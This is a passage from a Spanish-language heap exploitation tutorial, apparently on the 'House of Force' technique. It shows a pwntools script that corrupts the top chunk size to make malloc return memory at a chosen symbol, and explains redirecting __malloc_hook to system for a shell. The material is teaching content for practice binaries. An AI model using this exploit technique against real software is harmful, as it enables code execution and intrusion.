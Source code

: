 ```python

# This binary leaks the heap start address.
io.recvuntil(b"heap @ ")
heap = int(io.recvline(), 16)
io.recvuntil(b"> ")
io.timeout = 0.1

# =============================================================================

# =-=-=- EXAMPLE -=-=-=

# The "heap" variable holds the heap start address.
info(f"heap: 0x{heap:02x}")

# Program symbols are available via "elf.sym.<symbol name>".
info(f"target: 0x{elf.sym.target:02x}")

# The malloc() function chooses option 1 from the menu.
# Its arguments are "size" and "data".
malloc(24, b"Y"*24+p64(0xffffffffffffffff))

distancia = delta(heap+0x20, elf.sym.target-0x20)
info(f"delta entre el top chunk y 0x20 antes de target: {distancia}")

malloc(distancia, b"A")
malloc(8, "Pwned xd")

# =============================================================================

io.interactive()
```

## Ejecución de comandos

Para lograr ejecución de comandos podemos abusar de una característica muy ligada al heap. Se trata de los *malloc hooks*, es decir un puntero a función en la zona de datos de la libc, que apunta directamente a la función de `malloc` (se utiliza para proporcionar una manera de utilizar una implementación personalizada de malloc).

Si conseguimos que esta dirección apunte a `system` (que está disponible en libc), podremos invocar una shell.

En este caso, deberemos calcular la distancia entre el registro `malloc_hook` y el heap:

```python
distancia = (libc.sym.__malloc_hook - 0x20) - (heap + 0x20)
```

Con eso ya tendríamos el top chunk justo antes del registro, de forma que con una llamada a `malloc` podremos sobrescribirlo con la dirección de `system`:

```python
malloc(24, p64(libc.sym.system))
```
